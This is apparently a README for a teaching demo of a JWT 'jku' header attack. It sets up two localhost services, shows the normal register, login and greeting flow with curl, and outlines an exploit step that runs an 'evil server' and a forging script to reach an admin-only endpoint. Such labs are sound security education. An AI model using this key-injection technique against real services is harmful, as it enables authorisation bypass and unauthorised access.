 # jwt-jku-attack
Simple example of JWT attack by abusing the jku field

This project contains two services:
- Auth Service (port 5000): allows user to register an account and login to retrieve a JWT token.
- Greeting Service (port 6000): allows user to get cool greetings, with a secret greeting only for admins.
The user must supply a valid JWT token to be able to access the Greeting Service

## Setup

```bash
# start Auth Service
cd auth_service
python3 app.py

# start Greeting Service
cd greeting_service
python3 app.py
```

## Normal flow

```bash
curl -X POST http://localhost:5000/register -H "Content-Type: application/json" -d '{"username":"me","password":"p4ssw0rd"}'
curl -X POST http://localhost:5000/login -H "Content-Type: application/json" -d '{"username":"me","password":"p4ssw0rd"}'
# replace 'TOKEN' in below command with printed token from previous command
curl http://localhost:6000/greeting -H 'Authorization:TOKEN'
curl http://localhost:6000/secret_greeting -H 'Authorization:TOKEN'
```

## Exploit

```bash
# start evil server
curl -X POST http://localhost:5000/register -H "Content-Type: application/json" -d '{"username":"me","password":"p4ssw0rd"}'
cd exploit
python3 evil_server.py

# run exploit
cd exploit
python3 exploit.py
# replace 'TOKEN' in below command with printed token from previous command
curl http://localhost:6000/secret_greeting -H 'Authorization:TOKEN'
```
